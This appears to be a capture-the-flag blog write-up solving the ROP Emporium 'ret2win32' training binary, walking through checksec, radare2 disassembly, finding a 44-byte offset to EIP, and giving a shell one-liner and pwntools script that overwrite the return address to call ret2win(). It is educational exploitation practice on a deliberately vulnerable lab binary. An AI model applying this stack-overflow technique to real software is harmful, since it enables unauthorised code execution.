 ```yaml
---
layout: post
title: "Bof to the Top"
author: "Trojan187"
categories: ctf
tags: [documentation,sample]
image: ctf.PNG
---
```



## Table of Contents

1. [Introduction](#introduction)
2. [Analysis](#analysis)
3. [Plan](#plan)
4. [Solution](#solution)


##  Introduction

The challenge provides us with the binary.

HINT from: [!https://ropemporium.com/challenge/ret2win.html](https://ropemporium.com/challenge/ret2win.html)
As it states; you'll feed each binary with a quantity of garbage followed by your ROP chain. In this case there is a magic method we want to call and we'll do so by overwriting a saved return address on the stack. Certainly nothing that could be called a 'chain' by any stretch of the imagination but we've got to start somewhere. We'll do a little RE to confirm some information but nothing serious

---
### ROP-Emporium: ret2win32

_Files:_ `ret2win32`

---

##  Analysis

Lets take a look at the properties of the binary.

<img src="../../../../../assets/img/blogs/2020-04-21/ret2win/checksec.PNG">

Using radare2 to analyze all referenced code.

<img src="../../../../../assets/img/blogs/2020-04-21/ret2win/r2_aaaa.PNG">

Print the disassembly of the ret2win() function.
NOTE* `0x08048662` This looks very interesting and a potential address that can be used if the registers can be controlled. 

<img src="../../../../../assets/img/blogs/2020-04-21/ret2win/r2_pdf_ret2win.PNG">

Creating a pattern of 100 characters to use to locate the segmentation fault

<img src="../../../../../assets/img/blogs/2020-04-21/ret2win/gdb_start_pattern_create.PNG">

Segmentation fault occured and EIP was overwritten by 'AFAA' `0x41414641`. The offset is located at 44 bytes. 
EIP can now be controlled.

<img src="../../../../../assets/img/blogs/2020-04-21/ret2win/gdb_EIP_Seg_fault.PNG">

##  Plan

The hint said there will not be chaining required, hmmm the solution may just be that simple. So I thought I would just input the address I noted `0x08048662` when disassembling the ret2win() function im `Image#3` above. 


```python

run <<< $(python -c 'print "A"*44 + "\x62\x86\x04\x08"')
```
Nice! It worked. 

<img src="../../../../../assets/img/blogs/2020-04-21/ret2win/gdb_flag.PNG">

And this is my final python script to exploit it.

<img src="../../../../../assets/img/blogs/2020-04-21/ret2win/flag.PNG">

##  Solution

```python

#!/usr/bin/python
from pwn import *

context(arch='x86', os='linux', endian='little', word_size=32)

binary_path = './ret2win32'
e = ELF(binary_path)
p = process(binary_path)

buf = "A" * 44
buf += p32(0x08048662)

print(p.recvuntil('!\n'))
p.sendline(buf)
p.interactive()



```



## END
---


